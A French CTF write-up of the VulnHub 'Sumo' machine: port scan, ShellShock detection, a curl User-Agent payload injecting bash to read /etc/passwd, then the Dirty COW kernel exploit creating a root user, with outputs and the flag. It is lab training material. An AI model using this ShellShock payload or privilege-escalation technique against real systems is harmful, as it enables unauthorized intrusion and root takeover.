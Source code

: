 ```yaml
---
title: Solution du CTF Sumo de VulnHub
tags: [CTF, VulnHub]
---
```


One way or another
------------------

Voici un writeup pour [Sumo](https://www.vulnhub.com/entry/sumo-1,480/), petit CTF créé par *SunCSR Team*.  

```plain
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

On a un serveur web et un serveur SSH. Comme vous le verrez on pourra même se passer du second.  

Je lance Nuclei sur le serveur web qui me trouve direct une vulnérabilité :  

```plain
[2021-12-27 11:56:38] [CVE-2014-6271] [http] [critical] http://192.168.56.15/cgi-bin/test
```

Il s'agit de la faille ShellShock. Wapiti est en mesure de confirmer la vulnérabilité :  

```plain
$ ./bin/wapiti -u http://192.168.56.15/cgi-bin/test --scope url -m shellshock
ujson module not found, using json
msgpack not installed, MsgPackSerializer unavailable

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.0.9 (wapiti.sourceforge.io)
[*] Enregistrement de l'état du scan, veuillez patienter...
[!] Unable to import module ssl

[*] Lancement du module shellshock
L'URL http://192.168.56.15/cgi-bin/test semble vulnérable à l'attaque Shellshock !
```

I'm gonna find ya
-----------------

On peut exploiter la vulnérabilité directement avec cURL :  

```plain
$ curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://192.168.56.15/cgi-bin/test

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

J'ai profite donc pour obtenir un shell via *ReverseSSH*.  

L'utilisateur *sumo* est intéressant car fait partie de groupes privilégiés :  

```plain
uid=1000(sumo) gid=1000(sumo) groups=1000(sumo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),109(sambashare)
```

Mais il ne dispose ni de fichiers ni de processus utilisables pour une escalade de privilèges...  

I'm gonna getcha getcha getcha getcha
-------------------------------------

La machine est vulnérable à différents exploits Kernel dont [Dirty COW](https://dirtycow.ninja/).  

L'exploit signé Firefart donne généralement des bons résultats donc je ne suis pas allé chercher ailleurs.  

```plain
www-data@ubuntu:/tmp$ ./dirty holyc0w
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: holyc0w
Complete line:
firefart:fim4kAXNC8Hg6:0:0:pwned:/root:/bin/bash

mmap: 7f3cf6da9000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'holyc0w'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
www-data@ubuntu:/tmp$ grep firefart /etc/passwd
Binary file /etc/passwd matches
www-data@ubuntu:/tmp$ su firefart
Password: 
firefart@ubuntu:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:/tmp# cd /root
firefart@ubuntu:~# ls
root.txt
firefart@ubuntu:~# cat root.txt
{Sum0-SunCSR-2020_r001}
```



*Published December 27 2021 at 13:38*

